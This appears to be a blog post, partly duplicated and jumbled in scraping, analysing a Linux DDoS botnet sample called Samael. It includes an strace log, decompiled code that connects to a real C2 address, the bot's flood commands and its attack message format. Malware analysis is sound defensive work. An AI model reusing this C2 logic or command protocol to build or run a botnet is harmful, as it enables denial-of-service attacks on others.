



Investigating Linux Botnet Malware
for Fun and no Profit
//======================================================================\\
The other day, I obtained a malware sample which wasn't labeled, except that
it is an ELF x86_64. I was curious and decided to investigate.
In this blog post I summarize my findings.
First, thehash and the output of the file command.
The "no section header" part had me suspecting this sample is packed. A closer look with DetectItEasy revealsUPX was used as a packer
on the executable. Using upx -d, I was able to unpack the elf without any problems.
Thus, this sample is packed with a non-modified version of UPX, without any modifications
to the packed executable. After this, another look with file shows that the elf is stripped,
the entropy of the file suggests no further encrypted / packed parts. Now to the insides.
I used IDA 7.6 for static analysis. The stripping makes reverse engineering harder, but not impossible.
A first routine establishes a TCP listener on port 6969. A socket is created, which is then used with the bind system call. If bind fails, the bot closes itself. As no further functions use the TCP listener in any way, I suspect this just ensures the bot is only running once.
In the next routine that is called, the connection establishment to the C2 follows, which is shown below.

Summarized, this image shows the creation of a TCP socket to connect to the IP 23[.]94[.]179[.]104, port 1337 .
Following this, the malware writes to a file named infected.log . The string written is:
This is interesting, as a quick search reveals a youtube channel of this individual presenting the botnet, as well as an instagram and discord account supplied in the description of the video ... The video claims the botnet is for "educational purposes only".
Connecting to the C2 IP with the Tor Browser leads to a web server, containing the malware for various architectures.

The C2 connection routine is shown in the listing below, decompiled with IDA and annotated by me. Here, the "int argc, char **argv..." parameters are a misinterpretation of IDA. The buffer, which is sent in the last line before the return, is the name of the bot, supplied as an argument to the botnet program, if no name is supplied, the botname is set to the hard-coded stringunknown .
This routine may be called multiple times, when the connection to the C2 is lost, also when
attempting a reconnection after a disconnect from the C2.
After a connection to the C2 is established, the bot waits for commands. There are four commands in total:STD, TCP, UDP, B0TK1ll , with B0TK1ll shutting
down the bot. I will explain the other options in more detail next.
STD creates a datagram socket, not specifiying a protocol (PF_UNSPEC).
UDP creates a raw socket, specifiying UDP as a protocol.
TCP creates a raw socket, specifying TCP as a protocol.
The message sent to the bots starting an attack has the following format:[METHOD][TargetIP][Target Port][Duration][Payload Size] .
For dynamic analysis, I set the IP of my analysis machine to the C2 IP address and connected to it from a second machine running the botnet malware. Contained in my private network, I was able to safely test the botnet.
Each of these floods carried out by the bot seem to contain the payload stringSamael-DDoS-Attack , at least as far as i was able to see
from the static analysis, however in my tests I was not able
to observe this. Instead, all I saw was the same seemingly random string. Also, only the STD option
seems to work as intended, the UDP and TCP options do not seem to recognize the port
supplied to the botnet via the C2 correctly.
When I connected to the webserver a couple days later, the files were gone :-0

First, the
-- SHA256: 061440ab984f239b28629ea346d516114705dac4f20f44a5700000f31cdcd00d -- File Command: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
The "no section header" part had me suspecting this sample is packed. A closer look with DetectItEasy reveals
I used IDA 7.6 for static analysis. The stripping makes reverse engineering harder, but not impossible.
A first routine establishes a TCP listener on port 6969. A socket is created, which is then used with the bind system call. If bind fails, the bot closes itself. As no further functions use the TCP listener in any way, I suspect this just ensures the bot is only running once.
execve("./sam.elf", ["./sam.elf"], 0x7ffe6adffbd8 /* 32 vars */) = 0
ioctl(0, TCGETS, {B38400 opost isig icanon echo ...}) = 0
ioctl(1, TCGETS, {B38400 opost isig icanon echo ...}) = 0
fork() = 3048
exit(0) = ?
+++ exited with 0 +++
strace: Process 3048 attached
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
setsockopt(3, SOL_SOCKET, SO_REUSEADDR, [1], 4) = 0
bind(3, {sa_family=AF_INET, sin_port=htons(6969),
sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 1) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
rt_sigaction(SIGCHLD, NULL, {sa_handler=SIG_DFL,
sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
nanosleep({tv_sec=1, tv_nsec=0}, 0x7ffce61db050) = 0
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 4
connect(4, {sa_family=AF_INET, sin_port=htons(1337),
sin_addr=inet_addr("23.94.179.104")}, 16) = 0
write(1, "Connection successful\n", 22Connection successful
) = 22
brk(NULL) = 0xdd4000
brk(0xdd5000) = 0xdd5000
open("infected.log", O_RDWR|O_CREAT|O_APPEND, 0666) = 5
ioctl(5, TCGETS, 0x7ffce61daf70) = -1 ENOTTY
(Inappropriate ioctl for device)
brk(0xdd6000) = 0xdd6000
write(5, "This Device Has Been Infected by"..., 64) = 64
close(5) = 0
sendto(4, "unknown", 7, MSG_NOSIGNAL, NULL, 0) = 7
read(4,
In the next routine that is called, the connection establishment to the C2 follows, which is shown below.
This Device Has Been Infected by Samael Botnet Made By ur0a :)
This is interesting, as a quick search reveals a youtube channel of this individual presenting the botnet, as well as an instagram and discord account supplied in the description of the video ... The video claims the botnet is for "educational purposes only".
Connecting to the C2 IP with the Tor Browser leads to a web server, containing the malware for various architectures.
The C2 connection routine is shown in the listing below, decompiled with IDA and annotated by me. Here, the "int argc, char **argv..." parameters are a misinterpretation of IDA. The buffer, which is sent in the last line before the return, is the name of the bot, supplied as an argument to the botnet program, if no name is supplied, the botname is set to the hard-coded string
int __cdecl init_routine(int argc, const char **argv, ...)
{
--- SNIP ---
sockfd = s_socket(2LL, 1LL, 0LL);
v8[0] = 2;
v8[1] = s_htons(1337);
v9 = s_gethostbyname("23.94.179.104");
if ( (unsigned int)s_connect((unsigned int)sockfd, v8, 16LL) == -1 )
return 0;
sub_400C9C("Connection successful");
fp = s_fopen("infected.log", "a+");
s_fprintf("This Device Has Been Infected by Samael \
Botnet Made By ur0a :)\r\n", 1LL, 64LL, fp);
s_fclose(fp);
sus_connected_to_c2 = 1;
s_send(sockfd, (unsigned int)"%s", argc, v3, v4, v5);
return 1;
}
After a connection to the C2 is established, the bot waits for commands. There are four commands in total:
The message sent to the bots starting an attack has the following format:
For dynamic analysis, I set the IP of my analysis machine to the C2 IP address and connected to it from a second machine running the botnet malware. Contained in my private network, I was able to safely test the botnet.
Each of these floods carried out by the bot seem to contain the payload string
When I connected to the webserver a couple days later, the files were gone :-0
\\======================================================================//